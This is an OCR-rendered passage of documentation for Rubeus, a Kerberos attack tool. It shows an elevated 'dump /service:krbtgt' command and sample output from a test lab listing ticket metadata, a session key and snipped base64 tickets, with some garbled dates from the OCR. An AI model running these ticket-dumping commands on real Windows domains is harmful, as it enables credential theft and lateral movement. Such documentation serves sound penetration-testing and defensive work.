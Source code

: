  Base64EncodedTicket :

 doIFNjCCBTKgAwIBBaEDAgEWoo...(snip)...

 ...(snip)...


 [*] Enumerated 3 total tickets
 [*] Extracted 3 total tickets


**Elevated** extraction of all TGTs on a system:

 C:\Rubeus>Rubeus.exe dump /service:krbtgt

 ______ _
 (_____ \ | |
 _____) )_ _| |__ _____ _ _ ___
 | __ /| | | | _ \| ___ | | | |/___)
 | | \ \| |_| | |_) ) ____| |_| |___ |
 |_| |_|____/|____/|_____)____/(___/

 v1.3.3



 [*] Action: Dump Kerberos Ticket Data (All Users)

 [*] Target service : krbtgt


 UserName : harmj0y
 Domain : TESTLAB
 LogonId : 0x47869cc
 UserSID : S-1-5-21-883232822-274137685-4173207997-1111
 AuthenticationPackage : Negotiate
 LogonType : Interactive
 LogonTime : 2/11/2019 1131 PM
 LogonServer : PRIMARY
 LogonServerDNSDomain : TESTLAB.LOCAL
 UserPrincipalName : harmj0y@testlab.local

 [*] Enumerated 3 ticket(s):

 ServiceName : krbtgt/TESTLAB.LOCAL
 TargetName : krbtgt/TESTLAB.LOCAL
 ClientName : harmj0y
 DomainName : TESTLAB.LOCAL
 TargetDomainName : TESTLAB.LOCAL
 AltTargetDomainName : TESTLAB.LOCAL
 SessionKeyType : rc4_hmac
 Base64SessionKey : y4LL+W3KZoOjnwsiwf150g==
 KeyExpirationTime : 12/31/1600 400 PM
 TicketFlags : name_canonicalize, pre_authent, renewable, forwarded, forwardable
 StartTime : 2/11/2019 350 PM
 EndTime : 2/11/2019 813 PM
 RenewUntil : 2/12019 313 PM
 TimeSkew : 0
 EncodedTicketSize : 1306
 Base64EncodedTicket :
